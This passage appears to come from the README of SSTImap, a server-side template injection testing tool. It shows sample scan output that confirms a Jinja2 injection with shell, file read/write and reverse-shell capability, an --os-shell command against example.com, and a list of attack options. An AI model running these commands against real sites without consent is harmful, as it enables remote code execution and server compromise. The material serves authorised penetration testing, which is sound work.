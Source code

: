 ```
[*] Testing if GET parameter 'name' is injectable   
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:

  GET parameter: name
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, python code

[+] Rerun SSTImap providing one of the following options:
    --os-shell                   Prompt for an interactive operating system shell
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port
    --reverse-shell HOST PORT    Send a shell back to the attacker's port
    --upload LOCAL REMOTE        Upload files to the server
    --download REMOTE LOCAL      Download remote files
```

Use `--os-shell` option to launch a pseudo-terminal on the target.

```
$ ./sstimap.py -u https://example.com/page?name=John --os-shell

    ╔══════╦══════╦═══════╗ ▀█▀
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═
    ║ ╚════╣ ╚════╗  ║ ║    ║{║ _ __ ___   __ _ _ __
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/
                             │                  | |
                                                |_|
[*] Version: 1.1.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program


[*] Testing if GET parameter 'name' is injectable
[*] Smarty plugin is testing rendering with tag '*'
...
[*] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] SSTImap identified the following injection point:
```

[1]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
[2]: https://opsecx.com/index.php/2016/07/03/server-side-template-injection-in-tornado/
[3]: https://github.com/epinna/tplmap/issues/9
[4]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[5]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[6]: http://flask.pocoo.org/
[7]: http://jinja.pocoo.org/